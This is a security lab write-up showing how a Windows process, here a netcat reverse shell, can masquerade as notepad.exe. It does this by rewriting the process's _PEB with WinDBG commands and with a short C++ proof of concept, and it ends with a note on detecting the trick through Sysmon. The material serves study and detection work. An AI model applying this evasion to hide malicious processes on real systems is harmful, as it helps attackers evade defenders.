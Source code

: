```yaml
---
description: >-
  Understanding how malicious binaries can maquerade as any other legitimate
  Windows binary from the userland.
---
```


# Masquerading Processes in Userland via \_PEB

## Overview

In this short lab I am going to use a WinDBG to make my malicious program pretend to look like a notepad.exe \(hence masquerading\) when inspecting system's running processes with tools like Sysinternals ProcExplorer and similar. Note that his is not a [code injection](../offensive-security/t1055-process-injection/) exercise. 

This is possible, because information about the process, i.e commandline arguments, image location, loaded modules, etc is stored in a memory structure called Process Environment Block \(`_PEB`\) that is accessible and, given right privileges \(`SeDebugPrivilege`\) - writeable from the userland.

This lab builds on the previous lab:

{% page-ref page="../memory-forensics/process-environment-block.md" %}

## Context

For this demo, my malicious binary is going to be an `nc.exe` -  a rudimentary netcat reverse shell spawned by cmd.exe and the PID of `4620`:

![](../.gitbook/assets/malicious-process.PNG)

Using WinDBG, we will make the nc.exe look like notepad.exe. This will be reflected in the `Path` field and the binary icon in the process properties view using ProcExplorer as seen in the below graphic. Note that it is the same nc.exe process \(PID 4620\) as shown above, only this time masquerading as a notepad.exe:

![](../.gitbook/assets/masquerade-5.png)

## Execution

So how is this possible? Read on.

Let's first have a look at the \_PEB structure for the `nc.exe` process using WinDBG:

```csharp
dt _peb @$peb
```

![](../.gitbook/assets/masquerade-13.png)

Note that at the offset `0x020` of the PEB, there is another structure which is of interest to us -  `_RTL_USER_PROCESS_PARAMETERS`, which contains nc.exe process information. Let's inspect it further:

```csharp
dt _RTL_USER_PROCESS_PARAMETERS 0x00000000`005e1f60
```

![](../.gitbook/assets/masquerade-12.png)

The offset `0x060` of `_RTL_USER_PROCESS_PARAMETERS` is also of interest to us - it contains a member `ImagePathName` which points to a structure `_UNICODE_STRING` that, as we will see later, contains a field `Buffer` which effectively signifies the name/full path to our malicious binary nc.exe. Note how at the offset `0x70` we can see the commandline arguments of the malicious process, which we explored [previously](../memory-forensics/process-environment-block.md).

Let's inspect the aforementioned `_UNICODE_STRING` structure:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-10.png)

`_UNICODE_STRING` structure describes the lenght of the string and also points to the actual memory location ``0x00000000`005e280e`` by the `Buffer` field that contains the string which is a full path to our malicious binary.

Let's confirm the string location by dumping the bytes at ``0x00000000`005e280e`` by issuing the following command in WinDBG:

```csharp
0:002> du 0x00000000`005e280e
00000000`005e280e  "C:\tools\nc.exe"
```

![](../.gitbook/assets/masquerade-9.png)

Now that I have confirmed that ``0x00000000`005e280e`` indeed contains the path to the binary, let's try to write a new string to that memory address. Say, let's try swapping the nc.exe with a path to the notepad.exe binary found in Windows\System32\notepad.exe:

```csharp
eu 0x00000000`005e280e "C:\\Windows\\System32\\notepad.exe"
```

![](../.gitbook/assets/masquerade-1.png)

{% hint style="warning" %}
If you are following along, do not forget to add NULL byte at the end of your new string to terminate it:

```text
eb 0x00000000`005e280e+3d 0x0
```
{% endhint %}

Let's check the `_UNICODE_STRING` structure again to see if the changes took effect:

```csharp
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

![](../.gitbook/assets/masquerade-4.png)

We can see that our string is getting truncated. This is because the `Lenght` value in the `_UNICODE_STRING` structure is set to 0x1e \(30 decimal\) which equals to only 15 unicode characters:

![](../.gitbook/assets/masquerade-3.png)

Let's increase that value to 0x3e to accomodate our longer string pointing to notepad.exe binary and check the structure again:

```csharp
eb 0x00000000`005e1f60+60 3e
dt _UNICODE_STRING 0x00000000`005e1f60+60
```

Good, the string pointed to by the field `Buffer` is no longer getting truncated:

![](../.gitbook/assets/masquerade-2.png)

For the sake of this demo, I cleared out the commandline arguments the nc.exe was launched with by amending the `_UNICODE_STRING` structure member `Lenght` by setting it to 0:

```csharp
eb 0x00000000`005e1f60+70 0x0
```

Inspecting our malicious nc.exe process again using Process Explorer reveals that it now looks like notepad without commandline arguments:

## A simple PoC

As part of this simple lab, I wanted to write a simple C++ proof of concept that would make the running program masquerade itself as a notepad. Here is the code:

{% code-tabs %}
{% code-tabs-item title="pebmasquerade.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"
#include "winternl.h"

typedef NTSTATUS(*MYPROC) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{
	HANDLE h = GetCurrentProcess();
	PROCESS_BASIC_INFORMATION ProcessInformation;
	ULONG lenght = 0;
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");

	//get _PEB object
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

	//replace commandline and imagepathname
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)

![](../.gitbook/assets/masquerade-14.png)

## Observations

Switchingf back to the nc.exe, if we check the `!peb` data, we can see a notepad.exe is being shown in the  `Ldr.InMemoryOrderModuleList` memory structure - pretty cool:

Note that to further obfuscate the malicious binary, one could also rename the binary itself from nc.exe to notepad.exe.

![](../.gitbook/assets/screenshot-from-2018-10-23-19-47-59.png)

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess\#return-value" %}

Note that even though it shows in the loaded modules that notepad.exe was loaded, it still does not mean that there was an actual notepad.exe process created and sysmon logs prove this, meaning commandline logging can still be helpful in detecting this behaviour.

![](../.gitbook/assets/screenshot-from-2018-10-23-20-02-49.png)

## Credits

[@b33f](https://twitter.com/FuzzySec) for his [Masquerade-PEB.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1) which is what originally inspired me \(quite some time ago now\) to explore this concept, but I never got to lay my hands on it until now.  
[  
@Mumbai](https://twitter.com/@ilove2pwn_) for talking to me about C++ and NtQueryInformationProcess

## References

{% embed url="https://twitter.com/fuzzysec/status/775541332513259520?lang=en" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/ns-winternl-\_peb\_ldr\_data" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winternl/nf-winternl-ntqueryinformationprocess" %}

